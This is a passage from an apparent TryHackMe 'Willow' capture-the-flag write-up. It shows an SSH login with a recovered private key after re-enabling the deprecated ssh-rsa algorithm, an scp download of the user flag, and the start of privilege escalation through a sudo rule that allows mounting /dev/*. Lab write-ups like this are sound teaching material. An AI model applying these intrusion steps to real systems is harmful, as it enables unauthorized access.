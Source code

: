 Why it’s not working, we are providing all things right. I stuck here and searched on google about this problem and found why this is happening?
New versions of OpenSSH **disable `ssh-rsa`** by default due to its known weaknesses (esp. with SHA-1). You can **explicitly allow by using flags: `-oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa`**
Try again:

```bash
┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ ssh -i id_rsa willow@10.10.180.173 -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa
Enter passphrase for key 'id_rsa': 

        "O take me in your arms, love
        For keen doth the wind blow
        O take me in your arms, love
        For bitter is my deep woe."
                 -The Willow Tree, English Folksong

willow@willow-tree:~$ id
uid=1000(willow) gid=1000(willow) groups=1000(willow),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),119(bluetooth)
```

Finally logged in to willow’s account.

Let’s grab willow’s user flag, which was in form of  a .jpg file. We have to download it into our machine and then will be able to see what’s inside it.

```bash
┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ scp -i id_rsa -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa  willow@10.10.180.173:user.jpg .
Enter passphrase for key 'id_rsa': 
user.jpg                                                                                             100%   12KB  15.3KB/s   00:00  
```

<img width="1912" height="770" alt="image 3" src="https://github.com/user-attachments/assets/3d159fad-7098-4fee-9537-f8ddef6d85e8" />

---

### Shell as Root

Let’s check if willow has any sudo privileges.

```bash
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```
